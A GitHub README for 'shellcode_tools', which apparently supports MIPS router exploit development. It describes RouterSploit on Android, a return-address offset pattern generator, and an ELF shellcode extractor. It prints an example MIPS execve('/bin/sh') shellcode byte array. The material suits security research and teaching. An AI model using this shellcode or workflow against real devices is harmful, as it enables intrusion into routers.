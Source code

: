 # shellcode_tools
A collection of useful tools for writing shellcode 

### Android_routersploit

Setup the RouterSploit on Android based on termux.  [Procedure](https://github.com/desword/shellcode_tools/tree/master/Android_routersploit) 

<img src="https://github.com/desword/shellcode_tools/blob/master/img/android_sploit.jpg" width = 50% height = 50% div align=center />

### patternLocOffset.py

For generating a string to  calculate the offset of RA. 

### shell_extractor.py

In traditional, we need to find the corresponding shellcode using IDA pro. For example, 

![](https://p4.ssl.qhimg.com/t01d815b0c57399c2de.png)

Then we copy the binary and reconstruct them into the following formats:

![](https://p3.ssl.qhimg.com/t0188a9ffa755bb99ab.png)

We can find that there are lots of work for the above purpose. Therefore, I have developed a simple tool to extract the shellcode in binary form automatically from the ELF. 
With the following simple instructions, we can extract the shellcode in binary form conveniently for C testing or python testing. 


```python
   $ python shell_extractor.py execve c
   char shellcode[] = {
   "\x24\x06\x06\x66"
   "\x04\xd0\xff\xff"
   "\x28\x06\xff\xff"
   "\x27\xbd\xff\xe0"
   "\x27\xe4\x10\x01"
   "\x24\x84\xf0\x1f"
   "\xaf\xa4\xff\xe8"
   "\xaf\xa0\xff\xec"
   "\x27\xa5\xff\xe8"
   "\x24\x02\x0f\xab"
   "\x00\x00\x00\x0c"
   "\x2f\x62\x69\x6e"
   "\x2f\x73\x68\x00"
   };
```

The general usage is:

```bash
 [+] usage: python shell_extractor.py [filename] [format]
 [*] where format can be c or py
 ```
 
The core component is to use the command "readelf –S execve" to obtain the offset and size of the section .text. Then the format is generated accordingly.

![](https://p2.ssl.qhimg.com/t016872b10fb2dc2771.png)

For example, 0xd0 is the offset of the shellcode, while 0x30 is the size of the shellcode.


The original article can be found at: [路由器漏洞复现终极奥义——基于MIPS的shellcode编写](https://www.anquanke.com/post/id/153725)
